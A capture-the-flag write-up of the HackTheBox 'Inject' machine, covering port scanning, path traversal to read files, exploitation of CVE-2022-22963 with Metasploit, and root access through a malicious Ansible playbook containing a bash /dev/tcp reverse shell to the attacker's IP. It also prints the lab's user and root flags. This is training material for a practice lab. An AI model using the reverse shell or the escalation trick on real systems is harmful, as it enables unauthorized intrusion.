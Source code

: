 # Inject
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/badbc336-8df3-4625-b604-12ca012c8b9a)


## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.204 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-26 04:39 PDT
Nmap scan report for inject.htb (10.10.11.204)
Host is up (0.065s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.33 seconds
```

1. Based from the nmap results, the machine runs a web application and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/18855496-990c-492c-825c-109b1ea4644b)


2. Long story short, of all the existing features this website have. Only upload feature which could be our foothold.
3. When I tried to upload a ELF file, it showed this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/112575ec-8f40-4b71-83e6-171fe53fc405)


4. It does validate the extension file uploaded but does it sanitize the contents??
5. This could be our foothold. Anyway let's try to upload a normal image file there.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e72d5d5c-6d6a-491b-ba12-8eecd27ada69)


6. Interesting! We can view it.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7fc88b50-5f42-4114-be89-e9d0fdc0f1a5)


7. Great! More interestingly there's a URL parameter! We can send our reverse shell and access it to trigger it.
8. But anyway based from the wappalyzer info the webapps seems can't execute any file.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4b21490e-e7c2-4012-ab4c-b23895dd0424)


9. And we don't know whether it sanitizes the image content or not.
10. Anyway, found a `File Traversal` vuln when capturing the request using burpsuite and changing the parameter value.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/833033a0-4f0e-4a11-b02c-dff45dbf7f74)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/42acb84c-42b9-412f-8f93-5748e4ac10e4)


11. Succeed access /etc/passwd. Great! This means we can access the user directory and get the user flag there.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5c71ee41-1931-4839-a588-fe3707403df0)


12. Found 2 users, let's see which one has the user flag.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cb963b88-6bc2-42e9-a250-82b6ba08faf5)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c1458e84-d17f-4342-afd7-c5cfe45a0b33)


13. Found the user flag at **phil**, but the web browser can't read the user.txt file.
14. Going back to **frank** directory and checking `.m2` directory, we found a file named **settings.xml**, opening it shall resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/588b0f85-3f14-41f3-b288-717d744655fa)


15. Noticed there's a cred hardcoded there.
16. Anyway can't login to phil and frank using that password.
17. Then I go to `var/www` to see if there's any interesting directories or files inside it.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5a935911-b8be-4a54-9f12-6f3e8d15c0a5)


> FOUND NOTHING IN HTML

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/967fae62-dd94-4785-b9db-4437abb39498)


> FOUND FILES IN WEBAPP DIR

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a1ca30cd-44bb-49b8-9364-3c6ca1d819ef)


18. Checking **pom.xml** which covering about **spring framework** we can see the web version.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/40f83c6b-64c9-48b3-a67c-f55a950fb587)


19. Great! This shall helps us find CVEs.
20. Diving in the internet found 2 CVEs close to this --> `CVE-2022-22965` and `CVE-2022-22963`.
21. Analyze further the **poc.xml** shall realized the CVE for this challenge should be --> `CVE-2022-22963`. Because there's several things not there to use `CVE-2022-22965`.
22. Checking the metasploit, the targeturi seems at `/functionRouter`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ecb48e81-8ecf-4212-8aa3-3e53c74e9db6)


> USING METASPLOIT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/00deb14f-45c8-41a5-ac95-661cd0dbf4d5)


23. This time I tried to change to phil using the password we failed to use at ssh before.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/78af3178-61ea-43a8-8703-77c6db813b3c)


24. Turns out we succeed! Confused why failed before.

> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8b7c7463-3f0a-44cf-ad9d-27560363150a)


## USER FLAG

```
fc6d1634e2f5babf342a0cf22ac541bd
```

25. Run --> `python3 -c 'import pty;pty.spawn("/bin/sh")'` so we can check sudo permission for phil.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/3386bf5c-8d74-4c7e-b3a1-29c08e19e919)


26. Sadly we can't, let's use linpeas to check whether there is files or directories we can use to escalate our privilege.
27. Linpeas is a great tool, it listed every files/directories and even potential CVE document we can use to escalate our privilege.
28. However, it still hard to identify which one and it took time.
29. Based from the linpeas, it listed several `Ansible` path which runs as root.
30. `Ansible` is a great tool for automating IT tasks and managing infra at scale. It uses YAML to describe config changes and tasks.
31. Also it can be used to manage systems that runs on a wide range of OS.
32. Running another powerfull tool called **pspy64** shall resulting the same result as linpeas but with more straightforward result.

> FINDING

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/402ce897-a1e3-49b1-a6e7-7e7b7f777a4f)


33. Great! Seems **Ansible** is truly the intended solution here.
34. Noticed the `ansible/playbook` is being run as root.
35. Inside `playbook` itslef contained such as described before --> a task like execute shell command, create a new user, modifying a configuration file, or even installing packages. The cool thing is, it's `AUTOMATED`.
36. Checking the files permissions in `/opt/automation/tasks/` shall resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/783ce4c6-2df9-47d2-8fc5-278b11927940)

37. Remembering **phil** is a member of user group --> **staff**. Hence it allows us to create another .yaml file which has our reverse shell payload.
38. With this we can gain root!

> NORMAL .YAML FILE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/05b35fa0-fd1f-4988-b47f-5df555a15aa0)


> MALICIOUS .YAML/.YML FILE

```txt
- hosts: localhost
  tasks:
  - name: Checking webapp service
    shell: bash -c 'bash -i>& /dev/tcp/10.10.16.23/1337 0>&1'
```

39. Creates in at our local machine then run wget to send it there. Wait for minutes, after cronjob exec it, we got the root shell.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d7af6d22-a287-4d80-8c57-04b700d11515)


> GETTING ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/153aa52a-717c-4d00-8e98-30cad221e497)


## ROOT FLAG

```
836c23c223f92772f6cbfe4cb2e2e1c2
```
